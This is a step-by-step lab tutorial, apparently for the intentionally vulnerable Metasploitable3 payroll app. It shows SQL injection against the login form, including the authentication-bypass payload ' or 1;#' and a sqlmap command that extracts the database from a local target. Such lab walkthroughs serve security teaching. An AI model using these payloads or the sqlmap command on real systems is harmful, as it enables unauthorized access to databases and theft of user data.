 For this tutorial you will need the following tools<b/>

* Browser (Prefarably Mozilla)
* Burpsuite
* SQLMap

1. Try and login using the following credentials:<b/>

   | Field     | Value    |
   | --------- |:--------:|
   | USERNAME  | admin    |
   | PASSWORD  | admin    |  

RESULTS: The webpage will display your username and no content
 
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-1.png "STEP 1")
   
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-1.png "Result 1")
2. <b>Try and login using the following credentials:</b>

   | Field     | Value    |
   | --------- |:--------:|
   | USERNAME  | '        |
   | PASSWORD  | admin    |  

RESULTS: The webpage will be blank
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-2.png "STEP 2")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-2.png "RESULT 2")
   
3. <b>Try and login using the following credentials:</b>

   | Field     | Value    |
   | --------- |:--------:|
   | USERNAME  | ' or 1;#'|
   | PASSWORD  | admin    |  

RESULTS: The web page will return all the user content
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-3.png "STEP 2")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-3.png "RESULT 2")
4. <b>Use SQLMap to extract the database using the following commands:</b>

   ```sqlmap -u http://127.0.0.1:7000/payroll_app.php --data="user=admin&password=admin&s=OK" -p user --method POST```

RESULTS: SQLMap will identify whether the web application is vulnerable to SQL Injection
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/step-4-sqlmap.png "STEP 4")
   ![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/payroll_app/result-4-1.png "RESULT 4")
